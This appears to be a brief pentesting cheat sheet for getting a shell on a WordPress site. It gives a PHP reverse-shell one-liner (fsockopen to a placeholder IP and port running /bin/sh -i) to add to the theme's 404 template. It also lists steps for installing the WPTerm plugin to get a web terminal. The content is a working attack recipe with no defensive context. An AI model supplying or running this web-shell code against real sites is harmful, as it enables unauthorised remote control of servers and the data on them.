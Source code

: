 ## 404 Template
Add to code

	$sock=fsockopen("[ip]",[port]);exec("/bin/sh -i <&3 >&3 2>&3");

## Install WPTerm
Link: https://wordpress.org/plugins/wpterm/
1. Plugins -> Add New
2. Browse -> Install -> Activate Plugin
3. Tools -> WPTerm
